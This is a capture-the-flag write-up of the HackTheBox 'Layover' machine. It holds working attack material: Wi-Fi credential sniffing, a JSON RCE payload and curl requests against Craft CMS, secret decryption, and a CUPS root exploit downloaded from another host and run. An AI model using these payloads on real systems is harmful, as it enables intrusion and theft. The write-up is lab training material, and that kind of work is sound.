




# Layover - HackTheBox Writeup

## Introduction

**Layover** is a Medium Linux machine built as an airport jumpbox. The public scan is deliberately boring: only SSH and RDP are exposed. The real target is behind the jumpbox's second network interface, an open passenger Wi-Fi network that carries a staff Miles portal and a Craft CMS installation.

The chain starts with the supplied `contractor` account on the jumpbox. That account has full sudo, but the jumpbox is only a container and holds no flags. The useful move is to connect its Wi-Fi radio to `HTB International WiFi`, put the second radio into monitor mode, and passively capture a staff member logging into the Miles portal over plain HTTP. The captured credentials work against Craft CMS on the internal portal, where a Content Editor can download the database and reach the element-search endpoint. Craft 5.9.8 is vulnerable to an authenticated Yii behavior-injection RCE (CVE-2026-44011). From `www-data`, the application's `.env` exposes the Craft security key and database password; the key decrypts the mail-relay password in the `htbairways_settings` table, and that password is reused by the local `aporter` account over SSH. `aporter` can read the user flag, and CUPS 2.4.16 (CVE-2026-34990) provides the final root file-write primitive.

The flags are redacted here.

-----

## 1. Initial Enumeration

A full TCP scan finds only two services:

```bash
nmap -p- --min-rate 3000 -T4 -Pn -oN scans/tcp_full.txt 10.129.136.53
```

```text
PORT     STATE SERVICE
22/tcp   open  ssh
3389/tcp open  ms-wbt-server
```

Service/version detection:

```bash
nmap -sV -sC -Pn -p22,3389 \
  --script "rdp-enum-encryption,ssl-cert" \
  -oN scans/services.txt 10.129.136.53
```

```text
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|     Native RDP: SUCCESS
|     RDSTLS: SUCCESS
|     SSL: SUCCESS
```

The supplied credential is for RDP, not SSH:

```bash
DISPLAY=:1 xfreerdp3 /v:10.129.136.53 /u:contractor /p:'Contractor2026!' \
  /cert:ignore /size:1280x800 /scale:100 /gdi:sw /window-position:0x0 /t:Layover
```

The desktop is XFCE on Ubuntu 24.04.4. The host is `airside-ws01`:

```text
contractor@airside-ws01:~$ id
uid=1001(contractor) gid=1001(contractor) groups=1001(contractor),27(sudo),111(netdev),121(wireshark)
```

The contractor account has full password-protected sudo:

```text
User contractor may run the following commands on airside-ws01:
    (ALL : ALL) ALL
```

That is useful for local control, but the jumpbox is a container and has no `user.txt` or `root.txt`. Its only network interface is `eth0` (`10.159.143.45/24`), and it carries two down Wi-Fi radios:

```text
wlan2            DOWN
wlan3            DOWN
eth0@if11        UP              10.159.143.45/24
```

The desktop autostart script `/usr/local/bin/layover-portal-watch` is the hint: it waits for NetworkManager to report a connected `wlan*` device and then opens Chromium on the airport captive portal. The intended path is the internal passenger Wi-Fi, not the exposed management services.

-----

## 2. The Airport Wi-Fi Pivot

`nmcli` sees one open SSID on channel 6:

```text
IN-USE  SSID                    BSSID              CHAN  SIGNAL  SECURITY
        HTB International WiFi  02:00:00:00:00:00  6     100     --
```

Join it with `wlan2` and reserve `wlan3` for monitoring:

```bash
sudo nmcli device wifi connect 'HTB International WiFi' ifname wlan2

sudo nmcli device set wlan3 managed no
sudo ip link set wlan3 down
sudo iw dev wlan3 set type monitor
sudo ip link set wlan3 up
sudo iw dev wlan3 set channel 6
```

`wlan2` receives `10.13.37.182/24`. The gateway is `10.13.37.1`, and internal DNS resolves:

```text
10.13.37.1   wifi.international.htb
10.13.37.10  portal.international.htb
```

The splash page is at `http://wifi.international.htb/` and links to the passenger portal:



The staff notice on the splash page is the signpost:

```text
HTB Airways staff notice: the HTB Airways Miles employee portal is reachable on
this passenger network at http://portal.international.htb/miles/.
```

The portal is `10.13.37.10`, a separate host from the jumpbox. A scan of the internal `/24` finds the portal and a staff client at `10.13.37.132`; the staff client exposes only RDP, but it periodically logs into the Miles portal.

-----

## 3. Passive Credential Capture

The Miles login is served over plain HTTP on an open Wi-Fi network. Put `wlan3` into monitor mode, capture the channel, and filter for HTTP form submissions:

```bash
sudo tcpdump -i wlan3 -n -s0 -w /tmp/channel6.pcap
```

```bash
tshark -r /tmp/channel6.pcap \
  -Y 'http.request.method == "POST"' \
  -T fields -e frame.time -e ip.src -e ip.dst \
  -e http.host -e http.request.uri -e http.file_data
```

The capture includes:

```text
10.13.37.132 -> 10.13.37.10
POST /miles/login.php
username=jenny&password=Fl1ghtDeck2026!
```

The login page even documents the weakness in a comment:

```html
<!-- NOTE: the form is a plain HTML POST to /miles/login.php with fields
     username/password — this is the intended cleartext login. Do not add JS
     that intercepts or transforms the submission. -->
```

The password is not checked for known members, but the username is looked up in the member database. Signing in as `jenny` produces a real Gold Member profile:





```text
Jenny Crawford
Gold Member
Member HA-4471880 · Home HTB · Since 2021
Available Miles 48,250
Upcoming booking KS7X2M — HTB → LHR · HA-118
```

The same credential is reused for the Craft CMS control panel.

-----

## 4. Craft CMS and the Database Backup

`portal.international.htb` runs Craft CMS. The control panel is `/admin`; the login action is:

```http
POST /index.php?p=admin/actions/users/login HTTP/1.1
Host: 10.13.37.10
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

loginName=jenny&password=Fl1ghtDeck2026!&CRAFT_CSRF_TOKEN=<token>
```

A successful login redirects to `/admin/dashboard` and sets the identity cookie. The dashboard reports **Craft CMS Solo 5.9.8**. Jenny is a Content Editor, not an administrator, but the CP exposes the utilities to her:

```text
Dashboard
Utilities
  System Report
  PHP Info
  Queue Manager
  Caches
  Deprecation Warnings
  Database Backup
  Find and Replace
  Migrations
```

The System Report gives the important paths:

```text
PHP        8.3.6
MariaDB    10.11.14
Craft      Craft Solo 5.9.8
Yii        2.0.54
Web root   /var/www/portal
Module     htbairways (modules\htbairways\Module)
```

The Database Backup utility is reachable from the same session. It accepts a POST with the CP CSRF token and returns a ZIP:

```bash
curl -sS -b /tmp/cj3 -c /tmp/cj3 -X POST \
  'http://10.13.37.10/index.php?p=admin/actions/utilities/db-backup-perform-action' \
  --data-urlencode 'action=utilities/db-backup-perform-action' \
  --data-urlencode 'downloadBackup=1' \
  --data-urlencode "CRAFT_CSRF_TOKEN=$TOKEN" \
  -o /tmp/backup.bin
```

```text
Content-Type: application/zip
Content-Disposition: attachment;
  filename="htb-international--2026-10-28-163852--v5.9.8.sql.zip"
```

The dump contains the custom `htbairways_settings` table:

```sql
INSERT INTO `htbairways_settings` VALUES
(1,'mailRelayPassword','u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=','2026-07-16 03:19:52','2026-07-16 03:19:52'),
(2,'mailRelayHost','mail.htbairways.htb','2026-08-11 13:31:23','2026-08-11 13:31:23'),
(3,'mailRelayPort','587','2026-08-11 13:31:23','2026-08-11 13:31:23'),
(4,'mailRelayUser','aporter','2026-08-11 13:31:23','2026-08-11 13:31:23');
```

It also contains the `miles_members` rows, including Jenny's `HA-4471880` / `KS7X2M` booking, and the Craft user hashes. The encrypted mail-relay password is the interesting value: it is the credential for the `aporter` service account.



-----

## 5. Craft CMS Authenticated RCE (CVE-2026-44011)

Craft 5.9.8 is in the affected range for **CVE-2026-44011** / [GHSA-qrgm-p9w5-rrfw](https://github.com/craftcms/cms/security/advisories/GHSA-qrgm-p9w5-rrfw). The `/admin/actions/element-search/search` endpoint turns the request-controlled `condition` into an `ElementCondition` and then into a `FieldLayout` without `Component::cleanseConfig()`. Yii's special object-construction keys (`__class`, `as ...`, `on *`) therefore take effect, and the `FieldLayout` initialization triggers a same-request event.

The advisory payload attaches `yii\behaviors\AttributeTypecastBehavior` and uses `Psy\Readline\Hoa\ConsoleProcessus::execute` as the typecast callable:

```json
{
  "elementType": "craft\\elements\\Category",
  "siteId": 1,
  "search": "",
  "condition": {
    "class": "craft\\elements\\conditions\\ElementCondition",
    "elementType": "craft\\elements\\Category",
    "fieldLayouts": [{
      "as poc": {
        "__class": "yii\\behaviors\\AttributeTypecastBehavior",
        "__construct()": [{
          "attributeTypes": {
            "typecastBeforeSave": ["Psy\\Readline\\Hoa\\ConsoleProcessus", "execute"]
          }
        }]
      },
      "on *": "self::beforeSave"
    }]
  }
}
```

One detail matters in practice. `AttributeTypecastBehavior::typecastAttributes()` reads the **owner's** attribute value, not a value from the behavior's own config:

```php
foreach ($attributeTypes as $attribute => $type) {
    $value = $this->owner->{$attribute};
    ...
    $this->owner->{$attribute} = $this->typecastValue($value, $type);
}
```

Putting the command in the behavior's `typecastBeforeSave` property therefore calls `ConsoleProcessus::execute()` with an empty owner attribute, which fails with:

```text
ValueError: shell_exec(): Argument #1 ($command) cannot be empty
```

The working carrier is a public string property on `FieldLayout` that is not overwritten during layout creation. `thumbFieldKey` is such a property. The payload becomes:

```json
{
  "elementType": "craft\\elements\\Category",
  "siteId": 1,
  "search": "",
  "condition": {
    "class": "craft\\elements\\conditions\\ElementCondition",
    "elementType": "craft\\elements\\Category",
    "fieldLayouts": [{
      "thumbFieldKey": "install -m 644 /var/www/portal/.env /tmp/portal_env_www.txt",
      "as poc": {
        "__class": "yii\\behaviors\\AttributeTypecastBehavior",
        "__construct()": [{
          "attributeTypes": {
            "thumbFieldKey": ["Psy\\Readline\\Hoa\\ConsoleProcessus", "execute"]
          }
        }]
      },
      "on *": "self::beforeSave"
    }]
  }
}
```

`ConsoleProcessus::execute()` calls `escapeshellcmd()` by default, so the command is deliberately free of shell metacharacters. `install` copies and sets the mode of `.env` in one step. The request uses Jenny's session and the CP token:

```bash
curl -sS -b /tmp/cj3 -c /tmp/cj3 -X POST \
  'http://10.13.37.10/admin/actions/element-search/search' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H "X-Csrf-Token: $TOKEN" \
  --data-binary @/tmp/rce_thumb.json
```

The endpoint returns a search result (or a 500 while the layout is being built), and the command runs as `www-data`. The proof is the file created by the command:

```text
-rw-r--r-- 1 www-data www-data 753 Oct 28 17:12 /tmp/portal_env_www.txt
```

The same primitive can run any metacharacter-free command, for example `cp -r /var/www/portal/modules/htbairways /tmp/htbairways_src`.

-----

## 6. Application Secrets and the Mail Relay

The copied `.env` contains the Craft security key, database credentials, and site URL:

```text
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_2026
PRIMARY_SITE_URL=http://portal.international.htb/
CRAFT_ENABLE_TWIG_SANDBOX=true
```

The `htbairways` module protects `mailRelayPassword` with Yii's `Security::encryptByKey`, keyed by the Craft security key. With both the ciphertext and the key readable by the web user, the encryption boundary collapses. Decrypt it with the application's own autoloader and security class:

```bash
php -r 'require "/var/www/portal/vendor/autoload.php";
$s = new yii\base\Security();
echo $s->decryptByKey(base64_decode($argv[1]), $argv[2]), "\n";' \
  'u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=' \
  'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr'
```

```text
Skyp0rt_Relay!26
```

The recovered credential is:

```text
aporter:Skyp0rt_Relay!26
```

The local `aporter` account accepts it over SSH:

```bash
ssh aporter@10.13.37.10
```

```text
uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)
portal
/home/aporter
```

The user flag is in `/home/aporter/user.txt`:

```text
<REDACTED>
```

`aporter` has no sudo rights. The remaining boundary is the local CUPS service.

-----

## 7. Root Through CUPS 2.4.16 (CVE-2026-34990)

CUPS 2.4.16 is affected by **CVE-2026-34990** / [GHSA-c54j-2vqw-wpwp](https://github.com/OpenPrinting/cups/security/advisories/GHSA-c54j-2vqw-wpwp). The flaw is a local authorization-token disclosure:

1. An unprivileged local user creates a temporary printer with a `device-uri` pointing at an attacker-controlled localhost IPP service.
2. `cupsd` connects to that listener and is challenged with `WWW-Authenticate: Local trc="y"`.
3. `cupsd` retries with a reusable `Authorization: Local <token>` header, which the listener captures.
4. The token is reused against the CUPS admin interface to create a `file:///...` queue. A race with the background validation can persist the queue as shared.
5. Printing raw data to the queue opens the target path as root with `O_WRONLY|O_CREAT|O_TRUNC`.

The de-harnessed PoC targets the already-running system CUPS daemon on `127.0.0.1:631`. It was staged on the jumpbox and fetched by `aporter` over the internal HTTP server:

```bash
# jumpbox
python3 -m http.server 8000 --directory /tmp

# portal, as aporter
curl -sS http://10.13.37.182:8000/cve.py -o /tmp/cve.py
```

The safe `--check` mode captured the `Authorization: Local` token but lost the file-write race after eight attempts. The full mode uses a `sudo -n id` check after each print instead of inspecting `/etc/sudoers.d` (which is not traversable by `aporter`), and it increases the race window:

```bash
python3 -u /tmp/cve.py --attempts 20 --iterations 200 \
  -c "id; hostname; cat /root/root.txt; ls -la /root"
```

```text
[*] Triggering CUPS token leak as aporter...
[+] Captured CUPS Local authorization token
[*] File-write race: attempt 1/20, queue cve34990f95604269
[-] No root file yet (last HTTP/IPP result: Reply(http=200, status=0))
[*] File-write race: attempt 2/20, queue cve34990f47919522
[+] Root access confirmed; starting requested action
uid=0(root) gid=0(root) groups=0(root)
portal
<REDACTED>
total 36
drwx------  6 root root 4096 Sep 23 13:14 .
drwxr-xr-x 21 197108 197121 4096 Sep 23 13:14 ..
-rw-------  1 root root 33 Oct 28 16:10 root.txt
```

The root flag is read directly from `/root/root.txt`:

```text
<REDACTED>
```

The PoC's teardown removes the temporary sudoers fragment. A follow-up `sudo -n id` as `aporter` returns `sudo: a password is required`, confirming the cleanup.

-----

## 8. Attack Chain

```text
contractor RDP on layover.htb
        ↓
airside-ws01 (jumpbox, full sudo, no flags)
        ↓
HTB International WiFi (open, channel 6)
        ↓
passive monitor capture of jenny:Fl1ghtDeck2026!
        ↓
Craft CMS 5.9.8 as Content Editor
        ↓
Database Backup → htbairways_settings (aporter + encrypted mail password)
        ↓
CVE-2026-44011 element-search behavior injection → www-data
        ↓
.env → CRAFT_SECURITY_KEY + DB password
        ↓
decrypt mailRelayPassword → aporter:Skyp0rt_Relay!26
        ↓
SSH as aporter → user.txt
        ↓
CVE-2026-34990 CUPS local token leak + file:// queue race
        ↓
root-owned sudoers fragment → /root/root.txt
```

-----

## Conclusions

- **The external scan was a decoy.** SSH and RDP were the only exposed ports, but the jumpbox's second network interface held the actual target. The initial foothold was not a remote exploit; it was a network-position problem.
- **Open Wi-Fi plus cleartext HTTP is credential exposure.** The staff client sent `jenny`'s password to `/miles/login.php` in a URL-encoded POST. A monitor-mode radio on the same channel was enough to recover it.
- **Craft's Content Editor role was broader than it looked.** Jenny could not open `/admin/settings`, but she could download the database and reach the element-search action. `CRAFT_ALLOW_ADMIN_CHANGES=false` did not protect the Yii object-construction path.
- **Yii behavior injection is about the object graph, not a single parameter.** The behavior only executes the typecast callable against the **owner's** attribute. The working payload used a public `FieldLayout` string property (`thumbFieldKey`) as the command carrier, and avoided shell metacharacters because `ConsoleProcessus::execute()` escapes them.
- **Encrypted application secrets are only as strong as key separation.** Once `www-data` could read `.env`, the Craft security key and database password were both available, and the module's encrypted mail-relay password decrypted with the application's own code.
- **Credential reuse crossed the last application boundary.** The mail-relay password was also the SSH password for `aporter`, which provided the user flag.
- **CUPS turned a local token leak into root.** The race was the only unreliable part: the safe check lost it, while the full mode with more attempts won on the second try and wrote a sudoers fragment as root.

-----

## References

- Craft CMS advisory GHSA-qrgm-p9w5-rrfw / CVE-2026-44011: <https://github.com/craftcms/cms/security/advisories/GHSA-qrgm-p9w5-rrfw>
- OpenPrinting CUPS advisory GHSA-c54j-2vqw-wpwp / CVE-2026-34990: <https://github.com/OpenPrinting/cups/security/advisories/GHSA-c54j-2vqw-wpwp>
- CUPS 2.4.16 de-harnessed PoC (adapted): <https://github.com/bara-almustafa/CVE-2026-34990-poc>
- Craft CMS 5.9.8 element-search PoC (payload reference): <https://github.com/khush-613/cve-2026-44011-poc>
- Yii 2 `AttributeTypecastBehavior`: <https://www.yiiframework.com/doc/api/2.0/yii-behaviors-attributetypecastbehavior>
- Craft CMS configuration and `.env`: <https://craftcms.com/docs/5.x/configure.html>
